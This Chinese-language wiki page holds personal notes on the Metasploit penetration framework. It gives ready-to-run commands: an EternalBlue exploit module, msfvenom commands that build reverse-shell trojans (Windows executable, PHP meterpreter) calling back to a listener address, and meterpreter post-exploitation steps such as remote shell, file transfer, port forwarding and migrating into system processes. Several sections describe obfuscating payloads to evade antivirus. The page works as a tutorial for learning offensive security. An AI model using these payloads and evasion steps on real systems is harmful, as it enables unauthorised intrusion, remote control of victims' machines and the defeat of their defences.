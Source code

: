 ```yaml
---
title: 19.msf
description: msf渗透框架
published: 1
date: 2023-05-29T04:17:14.366Z
tags: web safe, msf
editor: markdown
dateCreated: 2023-04-19T17:46:07.123Z
---
```


<center>msf</center>



[toc]



## Msf

> metasploit 渗透测试框架 [msf](https://github.com/rapid7/metasploit-framework)
>
> pro功能强大



### 1.使用

```shell
# docker
docker pull metasploitframework/metasploit-framework
docker run -it -p 443:433 d4
# msfconsole
msfconsole

# 查看能使用的漏洞
show exploits

# 搜索
search xxx

# 使用 有规律的
use exploit/windows/smb/ms17_010_eternalblue

# 攻击载荷
show payloads

# 攻击信息
show options
set payload <name>
set lhost <host>
set rhost <host>

# 攻击
exploit/run

# 信息
show info
show tagets
# 检查 不能直接打死别人
check
```

> [msf17010](https://www.codenong.com/cs106870256/)

### 2.木马工具

> msfvenom 木马生成工具

```shell
# 生成木马 -p pyloads -LHOST 主机 -LPORT -f 文件类型
msfvenom -p windows/x64/vncinject/reverse_winhttp LHOST=192.168.1.13 LPORT=888 -f exe > ~/Desktop/shell.exe 


# msfconsole 使用木马监听模块
use exploit/multi/handler
set LHOST 192.168.1.13 
set LPORT 888

# 生成php木马  raw 源码    elf linux格式
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.13 LPORT=888 -f raw > shell.php

# 查看payload
msfvenom -l payload

# 查看代码混淆 -e
msfvenom -l encoders
# 生成文件格式 -f
msfvenom --list format
```



### 3. 会话

> meterpreter 管理木马 
>
> 逆向工具[csdn](https://blog.csdn.net/qq_20031585/article/details/125865535) 
>
> [ghidra](https://github.com/NationalSecurityAgency/ghidra)

```shell
help #帮助文档

# 使用 msf17_010永恒之蓝攻击win7

# 上传下载  那大文件这么办呢
upload/download

# 获取shell  乱码：chcp 65001
shell

# 搜索/编辑 文件
search/edit

# 端口转发
portfwd 

# 进程迁移 我们的木马进程注入到系统进程中
migrate

```



### 4. 木马混淆

> encoders 木马混淆

```shell
# 混淆代码 -e
msfvenom -l encoders 

msfvenom -p windows/x64/vncinject/reverse_winhttp -e x64/zutto_dekiru  LHOST=192.168.1.13 LPORT=888 -f exe  > ~/Desktop/shell.exe
```

>  如何免杀：防止杀软杀了我们
>
>  我们木马混淆就是免杀

```shell
# 一般二进制选手看杀软为何杀我们(了解工作流)
修改文件md5
    1. 添加无效数据(了解pe结构)
    2. 修改资源表
    3. 修改字符串
    4. 修改体积
修改指令(代码)
修改执行流程(加壳)
修改源码
```



### 5.流程

1. 找目标存在的漏洞
2. 使用该漏洞
3. 设置payload
4. 攻击













